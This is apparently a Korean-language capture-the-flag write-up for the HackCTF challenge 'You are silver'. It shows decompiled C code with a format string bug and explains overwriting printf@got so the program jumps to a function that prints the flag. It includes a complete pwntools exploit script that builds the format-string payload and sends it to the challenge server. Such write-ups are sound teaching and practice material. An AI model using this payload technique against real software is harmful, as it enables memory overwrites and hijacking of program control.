 ```yaml
---
title: "[HackCTF]You are silver"
date: 2020-1-27
ctf: HackCTF
layout: post
---
```


main에서 fsb일어난다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-30h]
  int v5; // [rsp+28h] [rbp-8h]
  int v6; // [rsp+2Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  v6 = 50;
  puts("Please enter your name");
  fgets(&s, 46, stdin);
  printf(&s, 46LL);
  v5 = get_tier(v6);
  printf(v5);
  return 0;
}
```



printf(v5) -> play_game(4); 이런식으로 바꿔주면 play_game 함수 내부에서  `system("cat ./flag");`  할 수 있다.

stack offset 6번째부터 입력받으니까 %8$ln해주고 8번째 오프셋에는 printf@got로 해놓으면 앞에서 출력된만큼 스택 8번째인 printf@got를 덮을 수 있다.

stack offset 6 : %6295592 

stack offset 7 : c%8$ln + '\x00\x00'

stack offset 8 : printf@got

> exploit.py

```python
from pwn import *

e = ELF('./you_are_silver')
#p = process('./you_are_silver')
p = remote('ctf.j0n9hyun.xyz',3022)
play_game = 0x4006d7
printf_got = 0x601028

offset = 6

# printf@got -> play_game
payload = '%{}c'.format(play_game)
payload += '%8$ln'
payload += '\x00' * (8-len(payload)%8)
payload += p64(e.got['printf']) # 8
payload = payload.ljust(46,'Z')

p.sendlineafter('name\n',payload)

p.interactive()
```